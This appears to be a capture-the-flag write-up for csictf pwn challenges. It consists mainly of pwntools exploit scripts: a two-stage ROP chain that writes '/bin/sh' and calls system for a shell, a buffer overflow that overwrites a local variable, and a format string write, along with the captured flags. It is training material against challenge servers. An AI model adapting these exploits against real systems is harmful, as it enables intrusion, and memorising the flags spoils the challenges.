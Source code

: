 ```python
# csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}
```

##### second method
```python
from pwn import *

elf = ELF("pwn-intended-0x3")
rop = ROP(elf)
HOST = "chall.csivit.com"
PORT = 30013
p = remote(HOST, PORT)
offset = 32 + 8

POP_RDI = rop.find_gadget(['pop rdi', 'ret'])[0]
bss = 0x4040a0
log.success('pop rdi; ret @ %s' % hex(POP_RDI))
log.info("sending the first payload")
payload = b"A" * offset + p64(POP_RDI) + p64(bss) + p64(elf.plt['gets']) + p64(elf.sym['main'])
p.recvline()
sleep(1)
p.sendline(payload)
p.sendline("/bin/sh\0")
log.success("done writing /bin/sh")

log.info("sending the second payload")
payload2 = b"A" * offset + p64(POP_RDI) + p64(bss) + p64(elf.plt['system'])
p.sendline(payload2)
p.recvuntil("Welcome to csictf! Time to teleport again.\n")
p.interactive()

# FLAG --> csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}
```
###Secret Society
We only need to overwrite a local variable to make true one condition
```python
from pwn import *

elf = ELF("secret-society")
HOST = "chall.csivit.com"
PORT = 30041
p = remote(HOST, PORT)

p.sendlineafter("\n", "A" * 150)
p.interactive()

```
### Global Warming
A simple format string
```python
from pwn import *

elf = ELF("global-warming")
HOST = "chall.csivit.com"
PORT = 30023
p = remote(HOST, PORT)

write = {0x804c02c: 0xb4dbabe3}
payload = fmtstr_payload(12, write)
p.sendline(payload)
p.interactive()

# FLAG --> csictf{n0_5tr1ng5_@tt@ch3d}
```